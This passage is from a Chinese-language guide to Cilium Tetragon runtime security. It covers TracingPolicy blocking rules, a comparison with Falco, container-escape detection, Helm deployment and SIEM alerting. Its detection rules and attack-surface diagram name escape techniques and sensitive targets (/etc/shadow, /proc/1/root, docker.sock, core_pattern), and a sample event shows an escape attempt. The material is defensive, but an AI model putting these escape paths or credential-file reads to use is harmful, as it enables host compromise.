# Signal 动作 - 终止可疑进程
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: signal-examples
spec:
  kprobes:
  - call: "sys_execve"
    syscall: true
    args:
    - index: 0
      type: "string"
    selectors:
    # 使用 SIGKILL (9) 立即终止
    - matchArgs:
      - index: 0
        operator: "In"
        values:
        - "/bin/bash"
        - "/bin/sh"
      actions:
      - action: Signal
        argSig: 9   # SIGKILL - 不可被捕获/忽略
    
    # 使用 SIGTERM (15) 优雅终止
    - matchArgs:
      - index: 0
        operator: "Prefix"
        values:
        - "/tmp/"
      actions:
      - action: Signal
        argSig: 15  # SIGTERM - 可被捕获处理
      - action: Post # 同时记录
    
    # 使用 SIGSTOP (19) 暂停进程（保留现场）
    - matchArgs:
      - index: 0
        operator: "In"
        values:
        - "/usr/bin/gdb"
        - "/usr/bin/strace"
      actions:
      - action: Signal
        argSig: 19  # SIGSTOP - 挂起进程
      - action: Post
```

## 5.3 Override 动作配置详解

```yaml
# Override 动作 - 覆盖系统调用返回值（返回错误码）
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: override-syscall-examples
spec:
  kprobes:
  # 使文件打开失败（EPERM）
  - call: "sys_openat"
    syscall: true
    args:
    - index: 1
      type: "string"   # 文件路径
    selectors:
    - matchArgs:
      - index: 1
        operator: "In"
        values:
        - "/etc/shadow"
        - "/etc/gshadow"
      actions:
      - action: Override
        argError: -1   # EPERM (Operation not permitted)
      - action: Post
  
  # 使网络连接失败（ECONNREFUSED）
  - call: "sys_connect"
    syscall: true
    args:
    - index: 1
      type: "sockaddr"
    selectors:
    - matchArgs:
      - index: 1
        operator: "In"
        values:
        - "daddr:malicious-ip/24"
      actions:
      - action: Override
        argError: -111  # ECONNREFUSED
      - action: Post
```

## 5.4 限速与聚合配置

```yaml
# Post 动作限速配置
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: rate-limited-monitoring
spec:
  kprobes:
  - call: "sys_execve"
    syscall: true
    args:
    - index: 0
      type: "string"
    selectors:
    - matchArgs:
      - index: 0
        operator: "Prefix"
        values:
        - "/usr/bin/"
      actions:
      - action: Post
        # 限速：每个进程每 60 秒最多记录 1 次
        rateLimit: "60s"
        ratelimitScope: "process"  # process | thread | global
        
        # 可选：附加标签
        tagsFormat:
        - "severity=low"
        - "category=process-execution"
```

---

<!-- chunk: 6. 与 Falco 对比 -->## 6. 与 Falco 对比

## 6.1 架构对比 (Architecture Comparison)



## 6.2 详细特性对比矩阵 (Feature Comparison Matrix)

| 特性维度 | Tetragon | Falco | 说明 |
|---------|----------|-------|------|
| **底层技术** | 纯 eBPF (kprobe/LSM) | 内核模块/eBPF probe | Tetragon 更依赖现代 eBPF |
| **内核版本要求** | 4.19+（推荐 5.10+） | 4.14+（模块）/4.16+（eBPF） | Tetragon 要求更高 |
| **检测粒度** | 内核函数级别 | 系统调用级别 | Tetragon 更细粒度 |
| **主动防御** | ✅ Kill/Override | ❌ 仅告警 | **Tetragon 关键优势** |
| **Kubernetes 原生** | ✅ CRD 驱动 | ⚠️ 需要配置 | Tetragon 更 K8s 原生 |
| **规则语言** | YAML (TracingPolicy) | YAML (Falco Rules) | 类似但语义不同 |
| **规则库丰富度** | 较少（新项目） | 丰富（Falco Hub） | **Falco 更成熟** |
| **社区集成** | 成长中 | 非常活跃 | Falco 生态更完整 |
| **性能开销** | 极低（eBPF JIT） | 低至中等 | Tetragon 性能更好 |
| **运行时开销 (CPU)** | < 1% | 1-3% | Tetragon 更轻量 |
| **内存占用** | ~50-100 MB/节点 | ~100-200 MB/节点 | Tetragon 更节省 |
| **规则绕过难度** | 极高（内核执行） | 中（用户态处理） | **Tetragon 更安全** |
| **网络流量可见性** | ✅ 完整（L3/L4/L7） | ⚠️ 有限 | Tetragon 更完整 |
| **CNCF 状态** | Sandbox | 已毕业 (2023) | Falco 更成熟 |
| **企业支持** | Isovalent | Sysdig | 各有支持 |
| **Audit 合规** | ✅ 内置 | ✅ 内置 | 均支持 |

## 6.3 规则语言对比示例

```yaml
# === Falco 规则示例 ===
# 检测容器内 Shell 执行
- rule: Terminal shell in container
  desc: A shell was used as the entrypoint/exec point into a container
  condition: >
    spawned_process 
    and container 
    and container.image.repository != allowed_images
    and (proc.name = bash or proc.name = sh or proc.name = dash)
    and proc.tty != 0
  output: >
    A shell was spawned in a container with an attached terminal 
    (user=%user.name user_loginuid=%user.loginuid 
    %container.info shell=%proc.name parent=%proc.pname 
    cmdline=%proc.cmdline terminal=%proc.tty 
    container_id=%container.id image=%container.image.repository)
  priority: NOTICE
  tags: [container, shell, mitre_execution]
```

```yaml
# === Tetragon TracingPolicy 等效规则 ===
# 检测容器内 Shell 执行（额外支持主动阻断）
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: container-shell-detection
spec:
  kprobes:
  - call: "sys_execve"
    syscall: true
    args:
    - index: 0
      type: "string"
    selectors:
    - matchArgs:
      - index: 0
        operator: "In"
        values:
        - "/bin/bash"
        - "/bin/sh"
        - "/bin/dash"
        - "/bin/zsh"
      matchNamespaces:
      - namespace: Mnt  # 在容器 Mount NS 内
        operator: NotIn
        values: []
      actions:
      - action: Post    # 记录事件
      # 取消注释以启用主动阻断:
      # - action: Signal
      #   argSig: 9
```

## 6.4 场景选择建议



---

<!-- chunk: 7. 容器逃逸检测 -->## 7. 容器逃逸检测

## 7.1 容器逃逸攻击面分析 (Container Escape Attack Surface)

```mermaid
graph TB
    subgraph "容器逃逸攻击路径"
        CONTAINER["攻击者控制的容器"]
        
        subgraph "逃逸技术"
            PRIV_ESC["特权容器逃逸\n(--privileged)"]
            VOL_ESCAPE["挂载路径逃逸\n(hostPath /)")"]
            CAP_ESCAPE["Capability 滥用\n(CAP_SYS_ADMIN)"]
            PROC_ESCAPE["Procfs 逃逸\n(/proc/1/root)"]
            CGROUP_ESCAPE["Cgroup 逃逸\n(cgroup release_agent)"]
            SOCK_ESCAPE["容器运行时 Socket\n(docker.sock)"]
            KERNEL_VULN["内核漏洞利用\n(CVE-xxxx-xxxx)"]
            USERNS_ESCAPE["User Namespace 逃逸\n(unshare --user)"]
        end
        
        HOST["宿主机 / 集群控制面"]
        
        CONTAINER --> PRIV_ESC
        CONTAINER --> VOL_ESCAPE
        CONTAINER --> CAP_ESCAPE
        CONTAINER --> PROC_ESCAPE
        CONTAINER --> CGROUP_ESCAPE
        CONTAINER --> SOCK_ESCAPE
        CONTAINER --> KERNEL_VULN
        CONTAINER --> USERNS_ESCAPE
        
        PRIV_ESC --> HOST
        VOL_ESCAPE --> HOST
        CAP_ESCAPE --> HOST
        PROC_ESCAPE --> HOST
        CGROUP_ESCAPE --> HOST
        SOCK_ESCAPE --> HOST
        KERNEL_VULN --> HOST
        USERNS_ESCAPE --> HOST
    end
    
    style HOST fill:#f44336,color:#fff
    style CONTAINER fill:#ff9800,color:#fff
```

## 7.2 Tetragon 检测各类逃逸的策略

```yaml
# TracingPolicy: 全面容器逃逸检测策略集
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: container-escape-detection
spec:
  kprobes:
  # ============================================================
  # 检测1: 特权容器 - mount 系统调用滥用
  # ============================================================
  - call: "sys_mount"
    syscall: true
    args:
    - index: 0
      type: "string"    # source (设备/路径)
    - index: 1
      type: "string"    # target (挂载点)
    - index: 2
      type: "string"    # filesystem type
    selectors:
    # 检测挂载 / 到容器内（完整文件系统访问）
    - matchArgs:
      - index: 0
        operator: "Equal"
        values:
        - "/"
      - index: 2
        operator: "In"
        values:
        - "bind"
        - "overlay"
      actions:
      - action: Post
      - action: Signal
        argSig: 9
    
    # 检测挂载 cgroup（cgroup 逃逸关键步骤）
    - matchArgs:
      - index: 2
        operator: "In"
        values:
        - "cgroup"
        - "cgroup2"
      actions:
      - action: Post
    
  # ============================================================
  # 检测2: 通过 /proc/[pid]/root 访问宿主机文件系统
  # ============================================================
  - call: "sys_openat"
    syscall: true
    args:
    - index: 1
      type: "string"
    selectors:
    - matchArgs:
      - index: 1
        operator: "Prefix"
        values:
        - "/proc/1/root"
        - "/proc/1/fd"
        - "/proc/1/cwd"
      matchNamespaces:
      - namespace: Mnt
        operator: NotIn
        values: []  # 在容器 MNT NS 内执行
      actions:
      - action: Post
      - action: Signal
        argSig: 9
  
  # ============================================================
  # 检测3: 容器运行时 Socket 访问
  # ============================================================
  - call: "sys_connect"
    syscall: true
    args:
    - index: 1
      type: "sockaddr"
    selectors:
    - matchArgs:
      - index: 1
        operator: "In"
        values:
        - "path:/run/containerd/containerd.sock"
        - "path:/var/run/docker.sock"
        - "path:/run/crio/crio.sock"
      actions:
      - action: Post
      - action: Signal
        argSig: 9
  
  # ============================================================
  # 检测4: 内核模块加载（可能是 rootkit）
  # ============================================================
  - call: "sys_init_module"
    syscall: true
    selectors:
    - actions:
      - action: Post
      - action: Signal
        argSig: 9
  
  - call: "sys_finit_module"
    syscall: true
    args:
    - index: 0
      type: "int"    # fd
    selectors:
    - actions:
      - action: Post
      - action: Signal
        argSig: 9
  
  # ============================================================
  # 检测5: 内存映射可执行代码（shellcode 注入）
  # ============================================================
  - call: "sys_mprotect"
    syscall: true
    args:
    - index: 0
      type: "pointer"   # addr
    - index: 1
      type: "size_t"    # len
    - index: 2
      type: "int"       # prot flags
    selectors:
    # 检测将内存页设置为可执行 (PROT_EXEC)
    - matchArgs:
      - index: 2
        operator: "Mask"
        values:
        - "4"   # PROT_EXEC
      actions:
      - action: Post

  # ============================================================
  # 检测6: 写入 /proc/sys/kernel/core_pattern（经典逃逸）
  # ============================================================
  - call: "security_file_open"
    syscall: false
    args:
    - index: 0
      type: "file"
    selectors:
    - matchArgs:
      - index: 0
        operator: "In"
        values:
        - "/proc/sys/kernel/core_pattern"
        - "/proc/sys/kernel/modprobe"
        - "/proc/sysrq-trigger"
      actions:
      - action: Post
      - action: Signal
        argSig: 9
```

## 7.3 容器逃逸检测事件示例

当检测到逃逸尝试时，Tetragon 输出如下结构化事件：

```json
{
  "process_kprobe": {
    "process": {
      "exec_id": "dG90YWxseTpleHBsb2l0ZWQxMjM0NTY3ODk6MQ==",
      "pid": 42,
      "uid": 0,
      "binary": "/usr/bin/python3",
      "arguments": "escape.py --target /proc/1/root",
      "flags": "execve",
      "start_time": "2026-03-03T10:30:00Z",
      "pod": {
        "namespace": "production",
        "name": "compromised-pod-xyz",
        "container": {
          "name": "app-container",
          "image": {
            "name": "attacker/malicious-app:latest"
          }
        }
      },
      "node_name": "worker-node-1"
    },
    "function_name": "sys_openat",
    "args": [
      {
        "string_arg": "/proc/1/root/etc/shadow"
      }
    ],
    "action": "SIGKILL"
  },
  "node_name": "worker-node-1",
  "time": "2026-03-03T10:30:00.123456789Z",
  "aggregation_info": {
    "count": 1,
    "function_name": "sys_openat"
  }
}
```

---

<!-- chunk: 8. Kubernetes 集成与 Helm 部署 -->## 8. Kubernetes 集成与 Helm 部署

## 8.1 系统要求 (System Requirements)



## 8.2 Helm 部署配置 (Helm Deployment)

```yaml
# tetragon-values.yaml - 生产环境配置
# 基础配置
tetragon:
  image:
    repository: quay.io/cilium/tetragon
    tag: v1.1.0
    pullPolicy: IfNotPresent
  
  # 资源配置
  resources:
    requests:
      cpu: 200m
      memory: 256Mi
    limits:
      cpu: 2000m
      memory: 1Gi
  
  # 安全上下文
  securityContext:
    privileged: false
    capabilities:
      add:
      - SYS_ADMIN      # eBPF 程序加载
      - BPF             # 内核 5.8+
      - PERFMON         # perf 事件
      - NET_ADMIN       # 网络操作
  
  # eBPF 配置
  btf: ""  # 自动检测
  procFS: "/proc"
  
  # 事件过滤（减少噪音）
  enableProcessCred: true
  enableProcessNs: true
  
  # 导出配置
  exportFilename: "/var/run/cilium/tetragon/tetragon.log"
  exportFileCompress: true
  exportFileMaxSizeMB: 10
  exportFileMaxBackups: 5
  
  # gRPC 配置
  grpcAddress: "localhost:54321"

# Tetragon Operator 配置
tetragonOperator:
  enabled: true
  image:
    repository: quay.io/cilium/tetragon-operator
    tag: v1.1.0
  resources:
    requests:
      cpu: 10m
      memory: 64Mi
    limits:
      cpu: 500m
      memory: 256Mi

# Prometheus 监控
prometheus:
  enabled: true
  port: 2112
  serviceMonitor:
    enabled: true
    interval: 30s

# 持久化日志
export:
  stdout:
    enabled: true
    enabledFields: "ALL"
  
  fileSink:
    enabled: true

# Hubble 集成（如果使用 Cilium）
hubble:
  enabled: false

# RBAC
serviceAccount:
  create: true
  name: tetragon

# Pod 容忍（允许部署到所有节点）
tolerations:
- operator: Exists

# 节点亲和性
affinity:
  nodeAffinity:
    requiredDuringSchedulingIgnoredDuringExecution:
      nodeSelectorTerms:
      - matchExpressions:
        - key: kubernetes.io/os
          operator: In
          values:
          - linux
```

> ⚠️ **🟡 中危变更** — 变更集群资源状态，建议先 --dry-run 或 diff 确认
> - `helm upgrade/install`：部署/升级 release
> - `kubectl apply/create/replace`：创建/变更集群资源
> - `kubectl exec`：进入容器执行命令，可能改变容器状态

``` bash
# 🟡 中风险：会修改集群/资源状态，执行前请确认目标、影响范围与授权
# 安装 Tetragon
helm repo add cilium https://helm.cilium.io/
helm repo update

# 创建命名空间
kubectl create namespace kube-system

# 安装 Tetragon
helm install tetragon cilium/tetragon \
  --namespace kube-system \
  --version 1.1.0 \
  --values tetragon-values.yaml

# 等待 DaemonSet 就绪
kubectl rollout status daemonset/tetragon -n kube-system --timeout=300s

# 验证安装
kubectl get pods -n kube-system -l app.kubernetes.io/name=tetragon
kubectl exec -n kube-system daemonset/tetragon -- \
  tetra status

# 安装 tetra CLI
GOOS=linux GOARCH=amd64 
curl -L https://github.com/cilium/tetragon/releases/download/v1.1.0/tetra-linux-amd64.tar.gz | tar xz
chmod +x tetra && sudo mv tetra /usr/local/bin/
```
## 8.3 内置 TracingPolicy 库 (Built-in Policy Library)

> ⚠️ **🟡 中危变更** — 变更集群资源状态，建议先 --dry-run 或 diff 确认
> - `kubectl apply/create/replace`：创建/变更集群资源

``` bash
# 🟡 中风险：会修改集群/资源状态，执行前请确认目标、影响范围与授权
# Tetragon 提供的内置策略示例（从 GitHub 安装）
TETRAGON_VERSION="v1.1.0"
BASE_URL="https://raw.githubusercontent.com/cilium/tetragon/${TETRAGON_VERSION}/examples/tracingpolicy"

# 部署内置策略
# 1. 文件完整性监控
kubectl apply -f ${BASE_URL}/filename_monitoring.yaml

# 2. 网络监控
kubectl apply -f ${BASE_URL}/network_observe.yaml

# 3. 系统调用追踪
kubectl apply -f ${BASE_URL}/sys_write_follow_fd_prefix.yaml

# 4. 特权升级检测
kubectl apply -f ${BASE_URL}/privileges/privileges_raise.yaml

# 5. 进程执行追踪
kubectl apply -f ${BASE_URL}/process_execution.yaml

# 验证策略加载
kubectl get tracingpolicies.cilium.io
tetra tracingpolicy list
```
## 8.4 RBAC 配置

```yaml
# Tetragon 所需的 RBAC 权限
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: tetragon-operator
rules:
# TracingPolicy CRD 管理
- apiGroups: ["cilium.io"]
  resources:
  - tracingpolicies
  - tracingpoliciesnamespaced
  - podinfo
  verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]

# Pod 信息读取（用于上下文关联）
- apiGroups: [""]
  resources:
  - pods
  - namespaces
  - nodes
  verbs: ["get", "list", "watch"]

# Service Account 信息
- apiGroups: [""]
  resources:
  - serviceaccounts
  verbs: ["get", "list", "watch"]

# 事件写入
- apiGroups: [""]
  resources:
  - events
  verbs: ["create", "patch"]
---
# 安全策略（限制 Tetragon 自身权限）
apiVersion: policy/v1beta1

kind: PodSecurityPolicy
metadata:
  name: tetragon-psp
spec:
  privileged: false
  allowPrivilegeEscalation: false
  allowedCapabilities:
  - SYS_ADMIN
  - BPF
  - PERFMON
  - NET_ADMIN
  hostPID: false
  hostIPC: false
  hostNetwork: false
  volumes:
  - hostPath
  - configMap
  - secret
  - emptyDir
  allowedHostPaths:
  - pathPrefix: "/proc"
    readOnly: false
  - pathPrefix: "/sys/kernel/debug"
    readOnly: false
  - pathPrefix: "/var/run/cilium"
    readOnly: false
```

---

<!-- chunk: 9. 告警与 SIEM 集成 -->## 9. 告警与 SIEM 集成

## 9.1 Tetragon 事件导出架构 (Event Export Architecture)



## 9.2 Fluent Bit 集成配置

```yaml
# Fluent Bit ConfigMap - 采集 Tetragon 日志
apiVersion: v1
kind: ConfigMap
metadata:
  name: fluent-bit-tetragon-config
  namespace: logging
data:
  fluent-bit.conf: |
    [SERVICE]
        Flush         1
        Log_Level     info
        Daemon        off
        Parsers_File  parsers.conf
    
    # 输入: 读取 Tetragon JSON 日志文件
    [INPUT]
        Name              tail
        Path              /var/run/cilium/tetragon/tetragon.log
        Parser            tetragon_json
        Tag               tetragon.*
        Refresh_Interval  5
        Mem_Buf_Limit     50MB
        Skip_Long_Lines   On
        DB                /var/log/flb_tetragon.db
    
    # 过滤: 添加 Kubernetes 元数据
    [FILTER]
        Name           kubernetes
        Match          tetragon.*
        Merge_Log      On
        Keep_Log       Off
        K8S-Logging.Parser  On
        K8S-Logging.Exclude On
    
    # 过滤: 只导出高优先级事件
    [FILTER]
        Name    grep
        Match   tetragon.*
        Regex   process_kprobe.action SIGKILL|SIGTERM
    
    # 输出: Elasticsearch
    [OUTPUT]
        Name            es
        Match           tetragon.*
        Host            elasticsearch.logging.svc.cluster.local
        Port            9200
        Logstash_Format On
        Logstash_Prefix tetragon
        Time_Key        @timestamp
        Include_Tag_Key On
        HTTP_User       elastic
        HTTP_Passwd     ${ES_PASSWORD}
        tls             On
        tls.verify      On
    
    # 输出: 高严重性事件到 Slack
    [OUTPUT]
        Name          http
        Match         tetragon.*.SIGKILL
        Host          hooks.slack.com
        Port          443
        URI           /services/${SLACK_WEBHOOK_TOKEN}
        Format        json
        tls           On
  
  parsers.conf: |
    [PARSER]
        Name        tetragon_json
        Format      json
        Time_Key    time
        Time_Format %Y-%m-%dT%H:%M:%S.%L%z
        Decode_Field_As  escaped_utf8  process_exec.process.arguments
```

## 9.3 Elasticsearch 索引与告警规则

```json
// Elasticsearch Index Template - Tetragon 事件
PUT _index_template/tetragon
{
  "index_patterns": ["tetragon-*"],
  "template": {
    "settings": {
      "number_of_shards": 3,
      "number_of_replicas": 1,
      "index.lifecycle.name": "tetragon-ilm-policy",
      "index.lifecycle.rollover_alias": "tetragon"
    },
    "mappings": {
      "properties": {
        "@timestamp": {"type": "date"},
        "node_name": {"type": "keyword"},
        "cluster_name": {"type": "keyword"},
        "process_exec": {
          "properties": {
            "process": {
              "properties": {
                "pid": {"type": "long"},
                "uid": {"type": "long"},
                "binary": {"type": "keyword"},
                "arguments": {"type": "text"},
                "pod": {
                  "properties": {
                    "namespace": {"type": "keyword"},
                    "name": {"type": "keyword"}
                  }
                }
              }
            }
          }
        },
        "process_kprobe": {
          "properties": {
            "function_name": {"type": "keyword"},
            "action": {"type": "keyword"}
          }
        }
      }
    }
  }
}
```

```yaml
# Kibana 告警规则 - 容器逃逸检测
# kibana-alert-container-escape.ndjson
{
  "id": "container-escape-alert",
  "name": "Tetragon: Container Escape Attempt Detected",
  "type": "threshold",
  "consumer": "alerts",
  "schedule": {"interval": "1m"},
  "params": {
    "index": ["tetragon-*"],
    "timeField": "@timestamp",
    "groupBy": "process_kprobe.process.pod.namespace",
    "aggType": "count",
    "termSize": 5,
    "termField": "process_kprobe.process.pod.name.keyword",
    "thresholdComparator": ">",
    "threshold": [0],
    "timeWindowSize": 5,
    "timeWindowUnit": "m",
    "filterKuery": "process_kprobe.function_name: sys_mount OR process_kprobe.function_name: sys_unshare AND process_kprobe.action: SIGKILL"
  }
}
```

## 9.4 Prometheus 告警规则

```yaml
# PrometheusRule - Tetragon 安全事件告警
apiVersion: monitoring.coreos.com/v1
kind: PrometheusRule
metadata:
  name: tetragon-security-alerts
  namespace: monitoring
spec:
  groups:
  - name: tetragon.security
    interval: 30s
    rules:
    # 关键安全事件：进程被 SIGKILL
    - alert: TetragonProcessKilled
      expr: |
        increase(tetragon_events_total{
          type="PROCESS_KPROBE",
          action="SIGKILL"
        }[5m]) > 0
      labels:
        severity: critical
        category: runtime-security
      annotations:
        summary: "Tetragon 检测到并终止可疑进程"
        description: "节点 {{ $labels.node }} 上检测到 {{ $value }} 个可疑进程被强制终止"
        runbook_url: "https://wiki.company.com/sre/tetragon-kill-runbook"
    
    # 高频率文件访问告警
    - alert: TetragonSensitiveFileAccess
      expr: |
        rate(tetragon_events_total{
          type="PROCESS_KPROBE",
          function="security_file_open"
        }[5m]) > 10
      for: 2m
      labels:
        severity: warning
      annotations:
        summary: "敏感文件访问频率异常"
        description: "过去 5 分钟敏感文件访问: {{ $value | humanize }} 次/秒"
    
    # 网络连接异常
    - alert: TetragonSuspiciousOutbound
      expr: |
        increase(tetragon_events_total{
          type="PROCESS_KPROBE",
          function="tcp_connect",
          namespace!~"kube-system|monitoring|ingress"
        }[1m]) > 50
      for: 1m
      labels:
        severity: warning
      annotations:
        summary: "{{ $labels.namespace }} 命名空间出现大量出站连接"
    
    # Tetragon Agent 健康状态
    - alert: TetragonAgentDown
      expr: up{job="tetragon"} == 0
      for: 2m
      labels:
        severity: critical
      annotations:
        summary: "Tetragon Agent 不可用 - 安全监控中断"
        description: "节点 {{ $labels.instance }} 上的 Tetragon Agent 已离线"
```

## 9.5 tetra CLI 实时监控

```bash
#!/bin/bash
# tetra CLI 实时安全监控命令

# 1. 实时查看所有事件
tetra getevents -o compact --follow

# 2. 过滤只看进程执行事件
tetra getevents --event-types PROCESS_EXEC --follow

# 3. 过滤特定命名空间的事件
tetra getevents --namespace production --follow

# 4. 过滤特定 Pod 的事件
tetra getevents --pod web-app-7d4b9f-xyz --follow

# 5. 查看被 SIGKILL 的进程（已阻断的威胁）
tetra getevents --follow | jq 'select(.process_kprobe.action == "SIGKILL")'

# 6. 实时监控网络连接事件
tetra getevents --event-types PROCESS_KPROBE --follow | \
  jq 'select(.process_kprobe.function_name == "tcp_connect") | 
  {time: .time, pod: .process_kprobe.process.pod.name, 
   binary: .process_kprobe.process.binary}'

# 7. 生成进程树（追踪攻击路径）
tetra getevents --follow | jq '{
  time: .time,
  pid: .process_exec.process.pid,
  binary: .process_exec.process.binary,
  parent: .process_exec.parent.binary,
  pod: .process_exec.process.pod.name,
  args: .process_exec.process.arguments
}' | head -100
```

---

<!-- chunk: 10. 企业级安全运营实践 -->## 10. 企业级安全运营实践

## 10.1 安全运营框架 (Security Operations Framework)

